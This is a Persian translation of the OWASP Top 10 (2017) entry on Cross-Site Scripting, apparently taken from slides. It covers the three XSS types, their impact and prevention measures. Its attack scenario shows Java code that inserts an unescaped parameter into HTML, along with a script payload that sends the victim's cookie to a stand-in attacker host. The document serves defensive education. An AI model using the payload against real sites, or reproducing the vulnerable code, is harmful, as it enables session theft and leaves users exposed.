

A7
:2017
# Cross-Site Scripting (XSS)
|  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
|  | قابلیت بهره‌برداری: ۳ | شیوع: ۳ | قابل کشف بودن: ۳ | تکنیکی: ۲ |  |
| ابزارهای خودکار می توانند تمام 3 شکل ممکن XSS را شناسایی و اکسپلویت کنند و چارچوب های اکسپلویت در دسترس رایگانی وجود دارد. |  | XSS دومین مسئله مهم در OWASP Top 10 است و در حدود دو سوم از تمام برنامه های کاربردی یافت می شود. ابزارهای خودکار می توانند برخی از مشکلات XSS را به صورت خودکار، به ویژه در فن آوری های بالغ مانند PHP، J2EE / JSP و ASP.NET پیدا کنند. |  | تأثیر XSS برای بازتاب و DOM XSS متوسط است و برای XSS ذخیره شده با اجرای کد از راه دور در مرورگر قربانی شدید است مانند سرقت اعتبارها، جلسات و یا ارائه بد افزارها به قربانیان. |  |
آیا برنامه کاربردی آسیب‌پذیر است؟
سه شکل از XSS وجود دارد که معمولا مرورگرهای کاربران را هدف قرار می دهند:
XSS  منعکس شده: برنامه یا API  شامل ورودی کاربر غیرقابل اعتبار و غیرقانونی به عنوان بخشی از خروجی HTML  است. یک حمله موفقیت آمیز می تواند به حمله کننده اجازه دهد HTML  و JavaScript  دلخواهی را در مرورگر قربانی اجرا کند. به طور معمول، کاربر نیاز به ارتباط با برخی از لینک های مخرب دارد که به یک صفحه کنترل شده توسط مهاجم اشاره می کند، مانند وب سایت های آگهی مخرب، تبلیغات و یا مشابه این ها.
XSS ذخیره شده: برنامه کاربردی یا API ورودی کاربر تصفیه نشده را که بعدا توسط یک کاربر یا مدیر دیگر مشاهده می شود، ذخیره می کند. XSS ذخیره شده اغلب کاربر را با خطر بالایی از ریسک روبه رو می کند.
DOM XSS: چارچوب های جاوا اسکریپت، برنامه های تک صفحه و API هایی که به طور پویا شامل داده های قابل کنترل مهاجم به یک صفحه می شوند، به DOM XSS  آسیب پذیر هستند. در حالت ایده آل، برنامه اطلاعات قابل کنترل مهاجم را به API  های جاوا اسکریپت نا امن ارسال نمی کند.
حملات متداول XSS  عبارتند از: سرقت نشست، گرفتن حساب، دور زدن MFA ، جایگزینی یا حذف گره DOM (از قبیل پانل های ورود به سیستم تروجان)، حملات علیه مرورگر کاربر مانند دریافت نرم افزارهای مخرب، کلید ورود به سیستم و سایر حملات سمت مشتری.
نحوه پیشگیری از حمله
پیشگیری ازXSS  نیاز به جداسازی داده های غیر قابل اعتماد از محتوای مرورگر فعال دارد. این کار با انجام موارد زیر قابل دسترسی است:
با استفاده از چارچوب هایی که به صورت خودکار از وقوع XSS فرار می کنند به وسیله طراحی، همانند آخرین Ruby on Rails، React JS. محدودیت های حفاظت XSS هر چارچوب را بیاموزید و به طور مناسب موارد استفاده را که پوشش داده نمی شوند، مدیریت کنید.
فرار داده های درخواستHTTP  نامعتبر براساس متن در خروجی HTML (بدنه، ویژگی، جاوا اسکریپت، CSS، یا URL ) آسیب پذیری های XSS  ذخیره شده و منعکس شده را حل خواهد کرد.
با استفاده از رمزگذاری حساس به متن هنگام تغییر سند مرورگر در سمت مشتری بر علیه DOM XSS  عمل می کند. هنگامی که از انجام این کار اجتناب نکنیم، تکنیک های فرار از حساسیت متن مشابه می توانند به API  های مرورگر اعمال شوند، همانطور که در OWASP Cheat Sheet 'DOM based XSS Prevention'  توضیح داده شده است.
فعال کردن یک سیاست امنیتی محتوا (CSP) یک کنترل دفاع در عمق در برابر XSS  است. این مؤثر است اگر هیچ آسیب پذیری دیگری وجود نداشته باشد که اجازه می دهد کدهای مخرب را از طریق فایل محلی شامل شود (مثلا مسیرهای رونویسی شده یا کتابخانه های آسیب پذیر از شبکه های تحویل مجاز محتوا).
نمونه‌ سناریو حمله
سناریو 1: برنامه بدون تایید یا escape، از داده های غیر قابل اعتماد در ساخت قطعه HTML زیر استفاده می کند:
  (String) page += "<input name='creditcard' type='TEXT'
  value='" + request.getParameter("CC") + "'>";
مهاجم پارامتر CC را در مرورگر خود به صورت زیر تغییر می دهد :
  '><script>document.location=
  'http://www.attacker.com/cgi-bin/cookie.cgi?
  foo='+document.cookie</script>'.
این حمله باعث می شود شناسه نشست قربانی به وب سایت مهاجم ارسال شده و به مهاجم اجازه سرقت نشست فعلی کاربر را می دهد.
نکته: مهاجمان می توانند ازXSS  برای جلوگیری از هر گونه دفاع خودکار CSRF استفاده کنند.
منابع
OWASP
OWASP Proactive Controls: Encode Data
OWASP Proactive Controls: Validate Data
OWASP Application Security Verification Standard: V5
OWASP Testing Guide: Testing for Reflected XSS
OWASP Testing Guide: Testing for Stored XSS
OWASP Testing Guide: Testing for DOM XSS
OWASP Cheat Sheet: XSS Prevention
OWASP Cheat Sheet: DOM based XSS Prevention
OWASP Cheat Sheet: XSS Filter Evasion
OWASP Java Encoder Project
خارجی
CWE-79: Improper neutralization of user supplied input
PortSwigger: Client-side template injection